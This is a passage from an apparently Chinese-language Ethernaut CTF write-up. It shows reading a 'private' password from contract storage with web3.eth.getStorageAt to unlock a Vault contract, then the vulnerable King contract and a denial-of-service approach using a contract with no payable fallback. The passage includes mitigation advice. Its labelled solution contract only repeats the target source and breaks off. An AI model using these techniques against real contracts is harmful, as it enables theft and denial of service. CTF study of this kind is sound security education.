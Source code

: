 **解题步骤**：

1. 获取password, locked存放在位置slot 0， password存放在位置slot 1
```
web3.eth.getStorageAt(1)
```
2. 调用unlock解锁即可
```
//xxx为第一步获取的password
instance.unlock(xxx)
```
**如何避免**：

所以在合约中存储密码等敏感信息需要像在中心化数据库中存储一样考虑其安全性，如对密码加密或只存储密码hash

### 9. King

**题目源码**：
```
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```
**题目要求**：使King合约不能再继续下去

**攻击方法**：当King合约向king转账时，king不能接收货币则此玩法不能再继续；这里是通过“没有payable fallback函数的合约” 调用“King合约”而使该合约地址成为king，别人再无法成功调用King合约的fallback函数

> 注意
>
> 必须使用kingAddr.call.value(msg.value)("0x12121212");来调用King合约fallback函数；kingAddr.call.value(msg.value)只是一个函数而没有执行，这样应该报错，solidity还是不够完善

**解题合约**：
```
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

```